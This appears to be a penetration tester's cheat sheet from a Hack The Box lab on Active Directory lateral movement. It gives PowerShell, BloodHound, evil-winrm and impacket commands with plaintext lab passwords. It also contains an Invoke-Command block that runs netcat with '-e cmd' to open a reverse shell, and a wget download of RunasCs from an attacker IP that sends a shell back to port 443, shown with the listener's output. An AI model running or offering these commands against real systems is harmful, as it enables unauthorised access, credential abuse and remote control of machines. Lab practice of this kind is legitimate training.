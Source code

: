 https://www.powershelladmin.com/wiki/PowerShell_Executables_File_System_Locations.php

## Enumerate Remote Privilege Access

```powershell
#Check Remote Desktop acesss
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

#Check PSRemote access (winrm)
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
Bloodhound query: `MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2`
#How to Access via PSRemote (Windows)
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
#Connect via Winrm (Linux)
Intrusionz3r0X@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend

#SQL Server Admin remote access
Bloodhound Query: `MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2`

```

## Authentication

```powershell
#PSExec
impacket-psexec inlanefreight.local/wley:'transporter@4'@172.16.5.125
#Windows Management Instrumentation (more stealthy approach)
impacket-wmiexec inlanefreight.local/wley:'transporter@4'@172.16.5.5

#Impersonate user
$user = '<domain>\<user>'
$password = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user,$password)
Invoke-Command -ComputerName '<computer-name>' -Credential $Cred -ScriptBlock { C:\Temp\netcat.exe -e cmd <ip> <port>}

```

RunasCS

```powershell
C:\ProgramData>powershell -c wget 10.10.14.6/RunasCs.exe -outfile RunasCs.exe
C:\ProgramData>.\RunasCs.exe <username> <password> -r 10.10.14.6:443 cmd

Intrusionz3r@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 444
Connection received on 10.10.11.187 49906
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

```
